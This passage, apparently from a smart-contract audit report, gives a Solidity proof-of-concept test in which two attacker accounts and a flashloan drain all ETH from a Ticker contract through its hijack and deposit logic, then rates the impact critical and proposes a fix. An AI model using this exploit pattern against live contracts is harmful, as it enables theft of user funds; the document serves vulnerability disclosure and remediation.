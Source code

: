 ```solidity
    // attacker uses one account to create a Ticker with a low price, to pay less taxes
    changePrank(_attacker1);
    deal(_attacker1, COST + 0.01 ether); // to cover COST + tax
    tickerCreation.name = "test";
    tickerCreation.setPrice = 0.01 ether;
    underTest.create{ value: COST }(tickerCreation);

    // COST gets added to the contract's balance after new Ticker creation
    assertEq(address(underTest).balance, 100 ether + COST);

    // skip to the time when the attacker can hijack his own Ticker, using his other account
    skip(underTest.protectionInSeconds());

    // taxes are paid at the low creation price, and then price is updated to match the amount
    // to drain from the contract
    underTest.updatePrice(0, "test", 100 ether);

    // attacker uses another account to take a flashloan and hijack the Ticker he created
    changePrank(_attacker2);
    deal(_attacker2, 100 ether); // takes flashloan
    underTest.hijack{ value: 100 ether }(0, "test", 1); // + 100 ETH to _attacker1
    underTest.withdrawDeposit(0, "test", 100 ether);    // + 100 ETH to _attacker2

    // 1. Ticker contract stole all the ETH from the Ticker contract
    assertEq(address(underTest).balance, 0);
    // 2. _attacker1 has 100 ETH + a little bit more that was used to create the malicious Ticker
    assertApproxEqRel(_attacker1.balance, 100 ether, 1e16);
    // 3. _attacker2 has 100 ETH that will be used to repay the flashloan
    assertEq(_attacker2.balance, 100 ether);

    // _attacker2 repays the flashloan
    // ...
}
```

#### Impact

Critical. All ETH inside Ticker.sol can be stolen by an attacker.

#### Recommendation

Make the hijacker pay for the Ticker `price`, subtracting it from the `msg.value` he sends.

```diff
if (msg.value < price) revert NotEnough();

uint128 totalOwned = price + ticker.deposit;
- ticker.deposit = uint128(msg.value);
+ ticker.deposit = uint128(msg.value) - price;
_transferTicker(_nftId, ownerOf(_nftId), msg.sender, _newPrice);

if (totalOwned != 0) {
    _sendNative(currentOwner, totalOwned, false);
}
```

